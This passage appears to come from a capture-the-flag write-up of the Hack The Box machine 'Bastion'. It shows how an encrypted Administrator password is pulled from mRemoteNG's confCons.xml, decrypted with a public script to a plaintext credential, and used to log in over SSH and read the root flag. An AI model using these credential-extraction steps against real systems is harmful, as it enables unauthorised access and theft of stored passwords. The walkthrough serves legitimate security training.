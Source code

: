 23-02-2019  10:38    <DIR>          Windows Mail                                
23-02-2019  11:22    <DIR>          Windows Media Player                        
16-07-2016  15:23    <DIR>          Windows Multimedia Platform                 
16-07-2016  15:23    <DIR>          Windows NT                                  
23-02-2019  11:22    <DIR>          Windows Photo Viewer                        
16-07-2016  15:23    <DIR>          Windows Portable Devices                    
16-07-2016  15:23    <DIR>          WindowsPowerShell                           
               0 File(s)              0 bytes                                   
              14 Dir(s)  11.244.994.560 bytes free                              
{% endhighlight %}

We can find the version number in the changelog file and look for a known exploit, but this doesn't get us very far. 

A search for "mRemoteNG stored credentials", however, results in [exactly what we're looking for](http://hackersvanguard.com/mremoteng-insecure-password-storage/):

> mRemoteNG uses insecure methods for password storage and can provide droves of valid credentials during an assessment or competition.

As the post shows, we can find an encrypted password (right beside __Username="Administrator"__) in C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml.

{% highlight xml %}
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" . . . 
{% endhighlight %}

From here, you can find a handful of options available for decrypting an mRemoteNG password (including the one described in the previously linked-to [blog post](http://hackersvanguard.com/mremoteng-insecure-password-storage/)). 

What worked best for me was [mRemoteNG_Decrypt.py](https://github.com/haseebT/mRemoteNG-Decrypt). I copied the encrypted password and passed it as a string to get the plaintext credential.

{% highlight plaintext %}
root@kali:~/HTB/Bastion# python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
{% endhighlight %}

From here, we simply have to SSH in as Administrator.

{% highlight plaintext %}
root@kali:~# ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password: 
{% endhighlight %}

And the root flag is in Administrator's Desktop folder.

{% highlight plaintext %}
administrator@BASTION C:\Users\Administrator> type Desktop\root.txt                                                             
9588############################
{% endhighlight %}